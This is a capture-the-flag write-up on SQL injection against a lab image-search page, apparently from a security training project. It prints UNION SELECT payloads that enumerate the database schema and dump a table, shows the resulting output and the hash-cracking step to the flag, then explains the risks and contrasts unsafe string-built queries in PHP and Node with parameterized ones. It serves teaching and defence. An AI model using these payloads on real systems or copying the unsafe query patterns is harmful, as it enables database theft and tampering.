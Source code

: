 # Image Search Engine SQL injection

## How we found the breach

Before reading this breach explanations please have a look to this breach before:

[SQL injection on members table explanations →](../../sql_injection_members_table/Ressources/Explanations.md)

The principle is same as for the members SQL breach.
As in the previous SQL injection we achieved to retrieve the whole database Tables and Columns.
Images table is not spared:

```sql
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: list_images
Surname : id
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: list_images
Surname : url
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: list_images
Surname : title
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: list_images
Surname : comment
```

`list_images` table has 4 columns:
- id
- url
- title
- comment

### UNION SELECT and CONCAT SQL injection

We will then retrieve all the table's entries with all their fields.

Input:
```sql
-1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images
```

Output:
```sql
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 1https://fr.wikipedia.org/wiki/Programme_NsaAn image about the NSA !
Url : 1
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 2https://fr.wikipedia.org/wiki/Fichier:4242 !There is a number..
Url : 1
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 3https://fr.wikipedia.org/wiki/Logo_de_GoGoogleGoogle it !
Url : 1
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 4https://en.wikipedia.org/wiki/Earth#/medEarthEarth!
Url : 1
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 5borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : 1
```

We can see that the last image contains a hash to handle `1928e8083cf461a51303633093573c46`.

#### Retrieving the flag

Via md5 decrypt of `1928e8083cf461a51303633093573c46` contained in the `comment` list_images table column that leads to `albatroz`.

Hashing using sha256 the `albatroz` results in `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188` which is our flag.

## How to exploit the breach

Having a SQL injection breach can lead to be leaking the whole database entries, involving users' personal information, emails, password, etc. 

But not only about stealing data, a hacker could even insert entries in a specific table, for example to add credits to his account. A hacker could even delete all the entries of a table – let's hope you made regular backups of your database.

## How to avoid this breach

A solution to avoid this kind of breach would be to escape received image id using either your native database escaping tools or manually.

An other solution would be to use an ORM that will natively prevent SQL injections.

You could also define restricted accesses to the connection to the database: restricted access to only a few tables, no deletion permission, no reading permission for critical tables, etc.

### Php Example

Unsecured sql querying:

```php
$statement = $dbh->prepare("select comment, url from list_images where list_images.id = {$id}");
$statement->execute();
```

Secured sql querying:

```php
$statement = $dbh->prepare("select comment, url from list_images where list_images.id = ?");
$statement->execute([$id]);
```

### Node Example

Unsecured sql querying:

```js
connection.query(
  `select comment, url from list_images where list_images.id = ${id}`,
  function(err, rows, fields) {
    // Do something with the retrieved data.
  });

```

Secured sql querying:

```js
connection.query(
  'select comment, url from list_images where list_images.id = ?',
  [id],
  function(err, rows, fields) {
    // Do something with the retrieved data.
  });
```
